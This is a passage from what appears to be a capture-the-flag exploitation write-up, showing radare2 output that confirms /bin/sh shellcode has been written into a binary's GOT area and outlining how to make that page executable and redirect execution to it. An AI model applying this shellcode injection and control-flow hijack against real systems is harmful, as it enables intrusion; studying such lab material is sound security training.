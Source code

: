 Once the script is initiated we open a new terminal, attach radare2 to the process and check if our shellcode has 
been inserted correctly.
{{< highlight r2 "hl_lines=11 12" >}}
$ r2 -d 21370
[0x7f5ac270fa61]> pxq @ section..got.plt 
0x55aaeef73000  0x0000000000201e08  0x00007f5ac2c06100   .. ......a..Z...
0x55aaeef73010  0x00007f5ac29f5db0  0x00007f5ac270faf0   .]..Z.....p.Z...
0x55aaeef73020  0x00007f5ac2719050  0x000055aaeed717d6   P.q.Z........U..
0x55aaeef73030  0x00007f5ac270fa50  0x00007f5ac2648e80   P.p.Z.....d.Z...
0x55aaeef73040  0x000055aaeed71806  0x00007f5ac2719140   .....U..@.q.Z...
0x55aaeef73050  0x00007f5ac2719170  0x000055aaeed71836   p.q.Z...6....U..
0x55aaeef73060  0x000055aaeed71846  0x000055aaeed71856   F....U..V....U..
0x55aaeef73070  0x0000000000000000  0x000055aaeef73078   ........x0...U..
0x55aaeef73080  0x69622fbb48993bb0  0x54535268732f2f6e   .;.H./bin//shRST
0x55aaeef73090  0x00050f5e5457525f  0x0000000000000000   _RWT^...........
0x55aaeef730a0  0x0000000000000000  0x0000000000000000   ................
0x55aaeef730b0  0x0000000000000000  0x0000000000000000   ................
0x55aaeef730c0  0x0000000000000000  0x0000000000000000   ................
0x55aaeef730d0  0x0000000000000000  0x0000000000000000   ................
0x55aaeef730e0  0x0000000000000000  0x0000000000000000   ................
0x55aaeef730f0  0x0000000000000000  0x0000000000000000   ................
{{< /highlight >}}

Nice! the shellcode is inserted.  
Now we only need to make that memory zone executable and redirect the flow to `r14`, where our shellcode lives on.

---

#### Make a page executable? Is that even possible?
Well, normally is a bit more complicated than here. Thankfully, we have a function called `sym.make_page_executable()` which receives a 0x1000-aligned address.

{{< highlight r2 "hl_lines=2" >}}
[0x7f8137df2a61]> aaa;afl~make
0x55c877154a20    1 20           sym.make_page_executable
{{< /highlight >}}

Again, we need to calculate this address at runtime since it will change on every execution.  
We will calculate the difference between `sym.make_page_executable()` and `[rsp]`, just like we did 
previously with the `GOT`.

Once we have calculated this second the address, we will insert it on a specific position of the stack to redirect 
the flow. Remember that `sym.make_page_executable()` needs a 0x1000-aligned address. We will use the address of the 
`GOT` which is always aligned to that number. Look:

{{< highlight r2 "hl_lines=5" >}}
[0x7f8137df2a61]> dr~r1
r10 = 0x00000022
r11 = 0x00000246
r12 = 0x7f81382e6009
r13 = 0x55c877356000
r14 = 0x55c877356080
r15 = 0x55c877356097
{{< /highlight >}}
